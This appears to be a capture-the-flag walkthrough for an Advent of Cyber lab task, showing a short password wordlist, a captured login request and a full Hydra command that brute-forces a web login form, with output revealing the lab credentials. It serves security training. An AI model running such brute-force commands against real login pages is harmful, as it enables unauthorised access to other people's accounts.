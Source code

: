 ## We're first downloading the worlist to our machine
```$cat /advent3/day4/wordlist ```

![cat](/Advent%20of%20Cyber%203/Screenshots/Task4/Wordlist.PNG)
```
christmas
elves!
santa
festive
joy123
myrrh!
yuletide
presents
candy
tidings
cookie
cookies
biscuits!
snowball
snowball123
```
Now we need the post request, how does it look! for that purpose we use burpsuite!
- Here's our response!

![burp](/Advent%20of%20Cyber%203/Screenshots/Task4/burp.PNG)
```
POST / HTTP/1.1
Host: 10.10.88.145
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: http://10.10.88.145
Connection: close
Referer: http://10.10.88.145/
Cookie: PHPSESSID=rr0akvdk9fpk555t5f8fdl8s75
Upgrade-Insecure-Requests: 1

username=username&password=password&submit=Login
```

Now we know how our request looks like! let try to grab that form post and pass it to Hydra (Hydra is a pre-installed tool in Kali Linux used to brute-force username and password to different services)

```
hydra -l santa -P wordlist 10.10.88.145 http-form-post "/index.php:username=^USER^&password=^PASS^&submit=Login:F=Invalid username and password" -I
```
You might be wondering why adding a lot of those options, right?
- ```-l``` for the username!
- ```-P wordlist``` for the password wordlist that we've downloaded before!
- ```10.10.88.145``` our target!
- ```http-form-post``` We're bruteforcing a post module!
- ```^USER^``` & ```^PASS^``` are two parameters indicate what we're bruteforcing!
- ```F=Invalid username and password``` Whenever Hydra see this line when bruteforcing, it knows that the attempt failed therfore wrong credentials.
- ```-I``` Used to stop any previous hydra sessions and focus on the current one


## We get a response like this~

```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-05 01:17:01
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:1/p:16), ~1 try per task
[DATA] attacking http-post-form://10.10.88.145:80/index.php:username=^USER^&password=^PASS^&submit=Login:F=Invalid username and password
```
```http
[80][http-post-form] host: 10.10.88.145   login: santa   password: cookie
```
```
1 of 1 target successfully completed, 1 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-05 01:17:02
```

## Right! We've got the password! Which is cookie!, Now let try to attempt to login

![login](/Advent%20of%20Cyber%203/Screenshots/Task4/login.PNG)
![done](/Advent%20of%20Cyber%203/Screenshots/Task4/flag.PNG)


## We've done it! Well done guys!